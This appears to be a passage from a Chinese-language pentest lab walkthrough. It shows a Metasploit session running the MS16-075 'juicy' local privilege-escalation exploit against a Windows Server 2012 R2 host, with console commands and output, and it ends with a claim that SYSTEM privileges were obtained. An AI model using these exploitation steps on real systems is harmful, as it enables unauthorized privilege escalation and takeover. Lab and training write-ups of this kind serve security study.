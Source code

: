```

msf6 exploit(windows/local/ms16_075_reflection_juicy) > set session 3
session => 3
msf6 exploit(windows/local/ms16_075_reflection_juicy) > set lport 6666
lport => 6666
msf6 exploit(windows/local/ms16_075_reflection_juicy) > run

[-] Handler failed to bind to 192.168.10.20:6666:-  -
[-] Handler failed to bind to 0.0.0.0:6666:-  -
[+] Target appears to be vulnerable (Windows 2012 R2 (6.3 Build 9600).)
[*] Launching notepad to host the exploit...
[+] Process 1404 launched.
[*] Reflectively injecting the exploit DLL into 1404...
[*] Injecting exploit into 1404...
[*] Exploit injected. Injecting exploit configuration into 1404...
[*] Configuration injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Exploit completed, but no session was created.
msf6 exploit(windows/local/ms16_075_reflection_juicy) > 
```

<img src="https://s2.loli.net/2023/03/16/8TmHN2l6JBIXvQV.png" alt="image-20230316111033982" style="zoom: 67%;" />

#### 返回端口

设置监听端口，应该不需要重新演示一边了吧，这里就看效果吧！

可以看到这里已经成功获取system权限了。

<img src="https://s2.loli.net/2023/03/16/MyVxDRslunBjdIA.png" alt="image-20230316115858577" style="zoom: 67%;" />
